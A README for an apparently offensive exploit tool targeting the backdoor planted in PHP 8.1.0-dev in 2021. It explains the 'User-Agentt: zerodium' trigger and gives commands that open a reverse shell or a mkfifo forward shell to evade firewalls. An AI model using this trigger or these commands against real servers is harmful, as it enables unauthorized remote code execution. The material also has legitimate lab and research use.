 # Project Title

PHP 8.1.0-dev Backdoor Remote Code Execution

## Description

PHP verion 8.1.0-dev was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header with secret word zerodium.

The original code was restored after the issue was discovered, but then tampered with a second time. The breach would have created a backdoor in any websites that ran the compromised version of PHP, enabling hackers to perform remote code execution on the site.

This exploit creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* For reverse shell 
```
python3 php8.1_dev.py -t http://vulnerablesite/ -lhost 127.0.0.1 -lport 9001
```
* For forward shell firewall evasion
```
python3 php8.1_dev.py -t http://vulnerablesite/ -fs
```

## Help

For Help Menu
```
python3 php8.1_dev.py -h
```

## Acknowledgments

Backstory and Inspiration
* [Zerodium](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/)
* [Hack-The-Box](https://hackthebox.eu/)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
